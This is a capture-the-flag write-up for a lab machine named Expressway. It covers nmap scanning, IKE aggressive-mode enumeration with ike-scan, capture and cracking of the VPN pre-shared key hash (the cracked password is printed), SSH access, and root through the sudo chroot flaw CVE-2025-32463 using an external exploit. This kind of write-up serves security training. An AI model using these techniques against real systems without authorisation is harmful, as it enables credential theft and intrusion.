

# Nmap Scan

```bash
nmap -p $(cat ports.txt ) -sVC -O --min-rate=1000 10.129.16.8
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-19 19:06 IST
Nmap scan report for 10.129.16.8
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.19 (98%), Android 9 - 10 (Linux 4.9 - 4.14) (94%), Linux 3.2 - 4.14 (94%), Linux 2.6.32 - 3.10 (93%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (93%), OpenWrt 21.02 (Linux 5.4) (93%), Linux 2.6.32 (92%), Linux 6.0 (92%), Linux 4.19 (91%), Linux 2.6.32 - 3.5 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.50 seconds

```

The Nmap scan shows only an SSH service running on port 22; nothing else.

Tried a few basic username-password combinations, but it was not of much use.

Tried running an UDP Nmap scan this time:-

```bash
nmap -p- -sU --min-rate=2000 -oN portlist 10.129.16.8
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-01-19 19:08 IST
Nmap scan report for 10.129.16.8
Host is up (0.15s latency).
Not shown: 65440 open|filtered udp ports (no-response), 94 closed udp ports (port-unreach)
PORT    STATE SERVICE
500/udp open  isakmp
Nmap done: 1 IP address (1 host up) scanned in 92.53 seconds
```

Okay! we have got a service named `isakmp` running on port 500

Enumerating the service further:-

```bash
nmap -p 500 -sU -sCV --min-rate=1000 10.129.16.8     
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-19 19:14 IST
Stats: 0:01:13 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.129.16.8
Host is up (0.061s latency).

PORT    STATE SERVICE VERSION
500/udp open  isakmp?
| ike-version: 
|   attributes: 
|     XAUTH
|_    Dead Peer Detection v1.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.77 seconds

```

# IKE Enumeration

What is IKE?

As per, [https://www.paloaltonetworks.in](https://www.paloaltonetworks.in/), The Internet Key Exchange (IKE) protocol is used in IPsec VPNs to authenticate users and establish the shared key of a VPN session. IKE can operate in either main mode or aggressive mode. Main mode protects the identity of the user and securely establishes a shared secret for the VPN session. Users must provide a client certificate if connecting from a dynamic or non-whitelisted IP address. In aggressive mode the handshake takes less time, but the user's identity is transmitted in plaintext. The server responds with an MD5 or SHA1 hash of the user's password and information that is already sent in plaintext. An attacker could obtain the hash by intercepting packets or initiating an aggressive mode handshake with a valid username. 

There is a tool called `ike-scan` which is used to detect and identify IKE hosts and their implementations. Scanning the host with it:-

```bash
ike-scan -M -A 10.129.16.8                                        
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.16.8     Aggressive Mode Handshake returned
        HDR=(CKY-R=f97ee0a7ea443407)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.098 seconds (10.20 hosts/sec).  1 returned handshake; 0 returned notify
```

We found an username `ike` , with aggressive mode enabled.

Let’s try to obtain the user’s password hash using an aggressive mode handshake

```bash
ike-scan -M -A 10.129.16.8 --id=ike@expressway.htb -P ike_hash.bin
WARNING: gethostbyname failed for "ike_hash.bin" - target ignored: Success
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.16.8     Aggressive Mode Handshake returned
        HDR=(CKY-R=d443c9985adc5829)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
f7c341c7c121b78a0f3c3f9d051b8d9c3bf8a1fb41aed1f21e72f470af1cc05839aa55ddb81b5f221726efd322811c01f3270dbd9ffb17480f17eb24e963fda5327d727810d91fc33b61d87aa2ff94046878c046cafcd2c0680ed8584f1e01d48446c784df17b31f660b28f7dae98591:fc8da0fc98fbf335048a75e73555181c13cc48a030cfebae3d8e9bdecd66c550b3347ed209cf06ea6848243eca613df02897019b9512964d109977681378de82558f4976305e34e61dafb3c1b5e6fdb8d19ce6683f734fb4083c61a1e9a0c9169c187e9d50f8949e386b2d356cb50269:d443c9985adc5829:11ba0009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c0004000070808003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e6874629079f1bc2:197442f790584036884b25809b9d4266ce2f4d853d3cfc36a4413d00c09256ac:d21dee00d01a89f3a69c0cccd717709eaccd683c
Ending ike-scan 1.9.6: 1 hosts scanned in 0.359 seconds (2.78 hosts/sec).  1 returned handshake; 0 returned notify

```

We have got the SHA1 password hash stored in `ike_hash.bin`.

Let us use `psk-crack` to crack this IKE hash, with the standard password wordlist `rockyou.txt`

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt ike_hash.bin
Starting psk-crack [ike-scan 1.9.6] ([http://www.nta-monitor.com/tools/ike-scan/](http://www.nta-monitor.com/tools/ike-scan/))
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash eac9112755d0d5dcc6815cbf932b8e02fbdf303a
Ending psk-crack: 8045040 iterations in 6.100 seconds (1318803.24 iterations/sec)
```

Password for user `ike` obtained: `freakingrockstarontheroad`



Now we can ssh into the machine as `ike` and claim the user flag.

# Privilege Escalation

Trying `sudo -l` yields us no results as `ike` is not permitted to run as `sudo` on the machine.

Let us search for SUID binaries on the system:-

```bash
ike@expressway:~$ find / -type f -perm -u=s 2>/dev/null
/usr/sbin/exim4
/usr/local/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/sudo
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
```

There’s something weird here, the `sudo` binary is present in a non-standard location. This might indicate that it was custom-installed or modified in some way.

Checking the version of `sudo` on the machine:-

```bash
ike@expressway:~$ sudo --version
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

Let’s search if there is any vulnerability associated with this version of `sudo`


There’s a privilege escalation vulnerability associated with this version of `sudo`

## CVE-2025-32463

According to h[ttps://www.rapid7.com/db/modules/exploit/linux/local/sudo_chroot_cve_2025_32463/](https://www.rapid7.com/db/modules/exploit/linux/local/sudo_chroot_cve_2025_32463/), `sudo` before version 1.19.17p1 allows a user to use `chroot` option, when executing command. The option is intended to run a command with user-selected root directory (if sudoers file allow it). Change in version 1.9.14 allows resolving paths via `chroot` using user-specified root directory when sudoers is still evaluating. This allows the attacker to trick Sudo into loading arbitrary shared object, thus resulting in a privilege escalation.

Copying the payload of the exploit from https://github.com/r3dBust3r/CVE-2025-32463 to the target machine using `scp` ➖


Giving perms and executing the binary:-


`pwned`

# Learnings

- Always scan for services which run on all types of connections (TCP, UDP …)
- Custom error messages, custom file paths all indicate non-standard behaviour